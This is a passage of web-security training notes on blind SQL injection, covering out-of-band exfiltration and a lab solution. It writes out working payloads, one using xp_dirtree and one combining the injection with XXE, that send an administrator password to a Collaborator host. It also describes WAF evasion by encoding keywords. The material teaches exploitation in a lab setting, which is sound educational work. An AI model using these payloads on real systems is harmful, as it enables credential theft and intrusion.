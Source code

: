 
Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

>[!Note]
>There are various ways of triggering out-of-band interactions, and different techniques apply on different types of database. For more details, see the SQL injection cheat sheet.

>[!Example]
>The lab solution

1. Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
    
    `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.
4. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
5. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Collaborator tab. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
6. In the browser, click "My account" to open the login page. Use the password to log in as the `administrator` user.

## SQL injection in different contexts

In the previous labs, you used the query string to inject your malicious SQL payload. However, you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application. For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may provide different ways for you to obfuscate attacks that are otherwise blocked due to WAFs and other defense mechanisms. Weak implementations often look for common SQL injection keywords within the request, so you may be able to bypass these filters by encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`:
